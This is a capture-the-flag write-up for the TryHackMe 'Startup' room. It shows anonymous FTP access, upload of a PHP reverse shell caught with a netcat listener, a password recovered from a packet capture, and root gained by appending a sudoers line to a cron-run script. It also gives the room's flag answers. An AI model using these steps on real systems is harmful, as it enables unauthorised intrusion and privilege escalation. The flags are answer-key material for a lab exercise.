




# Startup


## Summary

[Startup](https://tryhackme.com/room/startup "Startup CTF on TryHackMe") is a begginer friendly CTF hosted by [TryHackMe](https://tryhackme.com/ "TryHackMe Official Website") and created by [Elbee](https://tryhackme.com/p/elbee). The room consists of 1 task and 3 flags, and the only description the room gives is the following.

> We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

The room creator (Elbee) can also be found at:
* [TryHackMe](https://tryhackme.com/p/elbee "Elbee's TryHackMe")
* [Twitter](https://twitter.com/elbee_ez "Elbee's Twitter")
* [GitHub](https://github.com/elbee-cyber "Elbee's GitHub")
* [YouTube](https://www.youtube.com/@elbee1473 "Elbee's YouTube")

---

## Contents

* [Flag 1 - What is the secret spicy soup recipe?](#flag-1 "Jump To Flag 1")
* [Flag 2 - What are the contents of user.txt?](#flag-2 "Jump To Flag 2")
* [Flag 3 - What are the contents of root.txt?](#flag-3 "Jump To Flag 3")

---

## Flag 1

As always we start by pinging the target machine to make sure it's up.

```
ping <IP_Address>

PING <IP_Address> (<IP_Address>) 56(84) bytes of data.
64 bytes from <IP_Address>: icmp_seq=1 ttl=61 time=169 ms
64 bytes from <IP_Address>: icmp_seq=2 ttl=61 time=167 ms
64 bytes from <IP_Address>: icmp_seq=3 ttl=61 time=168 ms
64 bytes from <IP_Address>: icmp_seq=4 ttl=61 time=168 ms
^C
--- <IP_Address> ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 167.185/167.915/168.506/0.563 ms
```

Once we've verified the machine is up and running we can start a port scan on the IP address using ```nmap``` in aggresive mode by using the ```-A``` flag.

```
$ nmap -A <IP_Address>

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to <IP_Address>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The result of the nmap scan shows 3 open ports.

* 21 - FTP (File Transfer Protocol)
* 22 - SSH (Secure Shell)
* 80 - HTTP (HyperText Transfer Protocol)

It also shows that FTP allows anonymous login and there are files currently stored there, as well as a writable directory. Meaning we also have permissions to upload files.

Before we visit the website we should make sure to download and check all the files on the FTP server.

We can connect to FTP with the following command.

```ftp <IP_Address>```

Once we connect, it should ask us for our credentials. For username we specify ```anonymous``` and for password we can type anything or just press enter.

We should see output similar to the following.

```
$ ftp <IP_Address>
Connected to <IP_Address>.
220 (vsFTPd 3.0.3)
Name: Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

To list all files in the current directory we can use the ```ls -la``` command which shows us the following.

```
ftp> ls -la
229 Entering Extended Passive Mode (|||15969|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp>
```

We have 3 files, ```.test.log```, ```important.jpg```, and ```notice.txt```, as well as a writable directory named ```ftp``` which is currently empty.

To download these files we'll have to use the ```get``` command followed by the file name like so...

```
ftp> get .test.log
local: .test.log remote: .test.log
229 Entering Extended Passive Mode (|||32609|)
150 Opening BINARY mode data connection for .test.log (5 bytes).
100% |***********************************|     5        6.59 KiB/s    00:00 ETA
226 Transfer complete.
5 bytes received in 00:00 (0.02 KiB/s)

ftp> get important.jpg
local: important.jpg remote: important.jpg
229 Entering Extended Passive Mode (|||50936|)
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
100% |***********************************|   245 KiB   79.75 KiB/s    00:00 ETA
226 Transfer complete.
251631 bytes received in 00:03 (75.63 KiB/s)

ftp> get notice.txt
local: notice.txt remote: notice.txt
229 Entering Extended Passive Mode (|||32740|)
150 Opening BINARY mode data connection for notice.txt (208 bytes).
100% |***********************************|   208        1.69 MiB/s    00:00 ETA
226 Transfer complete.
208 bytes received in 00:00 (1.19 KiB/s)
ftp> 
```

After we've downloaded the files we can go through them and see if we can find anything of use.

The ```.test.log``` file is empty, so obviously nothing important there.

The ```important.jpg``` file is just an "Among Us" meme.


Lastly the ```notice.txt``` file reads...

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

This message implies that users are downloading files on the website that are being uploaded by the developers through FTP.

That being said, we should check the website now.

Once we visit the website we'll be greeted with placeholder text for a website currently under construction and viewing the source code reveals the following HTML comment. 

```html
<article>
    <h1>No spice here!</h1>
    <div>
	<!--when are we gonna update this??-->
        <p>Please excuse us as we develop our site. We want to make it the most stylish and convienient way to buy peppers. Plus, we need a web developer. BTW if you're a web developer, <a href="mailto:#">contact us.</a> Otherwise, don't you worry. We'll be online shortly!</p>
        <p>&mdash; Dev Team</p>
    </div>
</article>
```

But none of these things lead us anywhere, so we should further enumerate the site with a tool like [GoBuster](https://www.kali.org/tools/gobuster/ "Kali Documentation for GoBuster") and see what we can find.

The wordlist I used for the directory scan was [directory-list-2.3-small.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt "Small Directory Word List")

```
$ gobuster -u <IP_Address> -w /path/to/word/list

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://<IP_Address>/
[+] Threads      : 10
[+] Wordlist     : /path/to/word/list
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/01/08 11:59:46 Starting gobuster
=====================================================
/files (Status: 301)

```

Almost immediately the ```gobuster``` scan finds a directory named ```files```.

If we visit ```http://<IP_Address>/files/``` we'll see an unprotected directory with **exactly** the same files we discovered on the FTP server.



As well as the empty directory named ```ftp``` which we had write access to.



This vulnerability gives us the ability to upload a reverse shell on the FTP server into this directory and come back to this site to access it.

Let's try it out. We'll start by connecting to FTP again, changing into the ```/ftp``` directory and trying to upload a random text file to see if it shows up on the website.

```
ftp> cd ftp
250 Directory successfully changed.

ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||18849|)
150 Ok to send data.
100% |***********************************|    12        0.17 KiB/s    00:00 ETA
226 Transfer complete.
12 bytes sent in 00:00 (0.02 KiB/s)
```

After we've uploaded the random text file using the ```put``` command we can check the ```/files/ftp``` directory on the website where we can verify the file was uploaded.



Now that we know it works we can upload a reverse shell and start a NetCat listener.

The one I used was created by PentestMonkey and can be found on his GitHub [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Pentest Monkey PHP Reverse Shell on GitHub").

```
ftp> put reverse-shell.php
local: reverse-shell.php remote: reverse-shell.php
229 Entering Extended Passive Mode (|||27200|)
150 Ok to send data.
100% |***********************************|  3455       29.15 MiB/s    00:00 ETA
226 Transfer complete.
3455 bytes sent in 00:00 (9.87 KiB/s)
ftp>
```

```
$ nc -lnvp 1234
Listening on 0.0.0.0 1234

```

Once the reverse shell has been uploaded and NetCat has started, navigate to ```http://<IP_Address>/files/ftp/``` and click the file, the request will hang. Now check your NetCat listener, if successful, it should look something like this.

```
$ nc -lnvp 1234
Listening on 0.0.0.0 1234

Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:57:11 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Now that we're in, we can check who we are with ```whoami``` and where we are with ```pwd```.

```bash
$ whoami
www-data
$ pwd
/
```

So we're ```www-data``` and we're in the root directory.

Seeing as how we'll be in this system for awhile we might as well check if Python is installed so we can upgrade to a bash shell.

Verify Python is present on the target system with the ```which``` command, if it returns a directory then it's installed.

```bash
$ which python
/usr/bin/python
```

Once we've verified Python is installed we can run the following command to upgrade the shell.

```python -c 'import pty;pty.spawn("/bin/bash")'```

Now we can look for the flags a bit more comfortably.

If we run ```ls -la``` on the current directory we'll see two things that stand out. A file called ```recipe.txt``` and a directory that doesn't belong here named ```incidents```.

More on the ```incidents``` directory later, for now all we need is the ```recipe.txt``` file.

```
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

Reading the ```recipe.txt``` file reveals the first flag to be the word 
```love```.

### [Back To Top](#startup "Jump To Top")

---

## Flag 2

Looking for other users on the system we find one named Lennie. But we do not have the permissions necessary to access his files, so we'll have to come back to this.

```
www-data@startup:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Nov 12  2020 .
drwxr-xr-x 25 root   root   4096 Jan  8 18:50 ..
drwx------  4 lennie lennie 4096 Nov 12  2020 lennie
```

Going back to when we first listed all the contents of the root directory there was a directory that stood out, the one called ```incidents```. This one doesn't come with the OS and if we list it's contents we see an interestingly named pcapng file.

```
www-data@startup:/$ ls -la /incidents
ls -la /incidents
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jan  8 18:50 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

Unfortunately for us, we can't use ```Wireshark``` and don't have permissions to use ```tcpdump``` so we'll have to find a way to download this file.

One way we can do this is by looking for the website files and trying to move the pcapng file there so we can download it directly from the site.

Usually website files are stored at the ```/var/www/html``` directory and if we list the contents there we'll see the following.

```
www-data@startup:/$ ls -la /var/www/html
ls -la /var/www/html
total 16
drwxr-xr-x 3 root   root    4096 Nov 12  2020 .
d-wx--x--x 3 root   root    4096 Nov 12  2020 ..
drwxr-xr-x 3 nobody nogroup 4096 Nov 12  2020 files
-rw-r--r-- 1 root   root     808 Nov 12  2020 index.html
www-data@startup:/$
```

Listing the contents of ```/var/www/html/file``` we see the same files from the FTP server and the same writable ```/ftp``` directory.

```
www-data@startup:/$ ls -la /var/www/html/files
ls -la /var/www/html/files
total 268
drwxr-xr-x 3 nobody nogroup   4096 Nov 12  2020 .
drwxr-xr-x 3 root   root      4096 Nov 12  2020 ..
-rw-r--r-- 1 root   root         5 Nov 12  2020 .test.log
drwxrwxrwx 2 nobody nogroup   4096 Jan  8 19:53 ftp
-rw-r--r-- 1 root   root    251631 Nov 12  2020 important.jpg
-rw-r--r-- 1 root   root       208 Nov 12  2020 notice.txt
```

Now that we've confirmed the location of the website files we can copy the pcapng file over to the writable directory.

```bash
www-data@startup:/$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp
```

And verify the file was copied by listing the contents of ```/var/www/html/files/ftp```.

```
www-data@startup:/$ ls -la /var/www/html/files/ftp
ls -la /var/www/html/files/ftp
total 48
drwxrwxrwx 2 nobody   nogroup   4096 Jan  8 21:06 .
drwxr-xr-x 3 nobody   nogroup   4096 Nov 12  2020 ..
-rwxrwxr-x 1 ftp      ftp       3455 Jan  8 19:53 reverse-shell.php
-rwxr-xr-x 1 www-data www-data 31224 Jan  8 21:06 suspicious.pcapng
-rwxrwxr-x 1 ftp      ftp         12 Jan  8 19:48 test.txt
```

We can grab the ```pcapng``` by downloading it off the website now or off the FTP server.

```
ftp> cd ftp
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||41585|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Jan 08 21:06 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          3455 Jan 08 19:53 reverse-shell.php
-rwxr-xr-x    1 33       33          31224 Jan 08 21:06 suspicious.pcapng
-rwxrwxr-x    1 112      118            12 Jan 08 19:48 test.txt
226 Directory send OK.

ftp> get suspicious.pcapng
local: suspicious.pcapng remote: suspicious.pcapng
229 Entering Extended Passive Mode (|||6517|)
150 Opening BINARY mode data connection for suspicious.pcapng (31224 bytes).
100% |***********************************| 31224       89.58 KiB/s    00:00 ETA
226 Transfer complete.
31224 bytes received in 00:00 (59.35 KiB/s)
```

Now that we have the ```suspicious.pcapng``` we can parse through the data with WireShark.

If you scroll through the data you'll notice an interesting http request where someone else uploaded a reverse shell.

```34. HTTP	443	GET /files/ftp/shell.php HTTP/1.1```

You'll want to follow the TCP Stream after this user requests his reverse shell (packets 35 and above) so we can see what commands he ran after he gained access to the system.

We see that this user runs some interesting commands after gaining access.

1. ```ls``` - Lists his current directory.
2. ```whoami``` - Checks what user he's logged in as.
3. ```python -c "import pty;pty.spawn('/bin/bash')"``` - Upgrades to bash shell.
4. ```cd home/lennie``` - Tries and fails to log into Lennies home directory.
5. ```sudo -l``` - Tries to check for current users sudo permissions.
6. Repeatedly fails password check with ```c4ntg3t3n0ughsp1c3``` as password.



The password part is very interesting because of how specific it was. It didn't work for ```www-data``` but maybe it's Lennies password.

Something we can verify if we ```ssh``` into his account and use ```c4ntg3t3n0ughsp1c3``` as the password.

```
$ ssh lennie@<IP_Address>

lennie@<IP_Address> password: c4ntg3t3n0ughsp1c3
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$
```

Now that we're logged in we can check, who we are (```whoami```), where we are (```pwd```), and what's in the current directory (```ls -la```).

```
$ whoami
lennie

$ pwd
/home/lennie

$ ls -la
total 24
drwx------ 5 lennie lennie 4096 Jan  8 21:30 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwx------ 2 lennie lennie 4096 Jan  8 21:30 .cache
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
```

Here we'll find the second flag in the ```user.txt``` file which reads the following.

```THM{03ce3d619b80ccbfb3b7fc81e46c0e79}```

### [Back To Top](#startup "Jump To Top")

---

## Flag 3

Before we root this machine we should upgrade the terminal to bash again with the following command.

```python -c 'import pty;pty.spawn("/bin/bash")'```

Now we can start to go through the directories we found earlier on Lennies home directory.

We'll start by listing the contents of ```/home/lennie/Documents```.

```
lennie@startup:~$ ls -la ./Documents/
total 20
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 .
drwx------ 5 lennie lennie 4096 Jan  8 21:30 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
```

After reading these files, we realize none of them are useful to us.

```
lennie@startup:~$ cat ./Documents/concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
```

```
lennie@startup:~$ cat ./Documents/list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
```

```
lennie@startup:~$ cat ./Documents/note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

Next we'll list the contents of the ```/home/lennie/scripts``` directory. Where we can find an empty text file named ```startup_list.txt``` and an interesting shell script owned by the root user named ```planner.sh``` and we can see that we have read and execute permissions for it.

```
lennie@startup:~$ ls -la ./scripts
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 5 lennie lennie 4096 Jan  9 18:30 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Jan  9 18:32 startup_list.txt
```

If we read the bash script we'll see that it echoes the contents of the ```$LIST``` variable into the ```startup_list.txt``` file in this directory but more importantly runs another script called ```print.sh``` that can be found in the ```/etc``` directory.

```
lennie@startup:~$ cat ./scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

Taking a look at the ```print.sh``` file we can see it's owned by Lennie.

```
lennie@startup:~$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Knowing that root calls this program we can leverage this vulnerability by adding our own commands to the script that will be executed with root priviledges.

One thing we can do is add Lennie to the ```etc/sudoers``` file so that we can run any program as sudo ourselves.

We'll do this by adding the following line to the ```print.sh``` file.

```echo 'lennie ALL=(ALL) ALL' >> /etc/sudoers```

When you're done the ```print.sh``` file should look like this...

```
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo 'lennie ALL=(ALL) ALL' >> /etc/sudoers
```

After about a minute or so a root cronjob should be executed and we can verify we have all sudo priviledges by running the ```sudo -l``` command.

```
lennie@startup:~$ sudo -l

[sudo] password for lennie: c4ntg3t3n0ughsp1c3
Matching Defaults entries for lennie on startup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lennie may run the following commands on startup:
    (ALL) ALL
lennie@startup:~$
```

Now we can find the root flag by listing the contents of the ```/root``` directory as sudo.

```
lennie@startup:~$ sudo ls -la /root

total 28
drwx------  4 root root 4096 Nov 12  2020 .
drwxr-xr-x 25 root root 4096 Jan  9 18:26 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12  2020 root.txt
drwx------  2 root root 4096 Nov 12  2020 .ssh
```

Finally reading the ```root.txt``` file we'll find the following flag.

```THM{f963aaa6a430f210222158ae15c3d76d}```

---

### [Back To Top](#startup "Jump To Top")
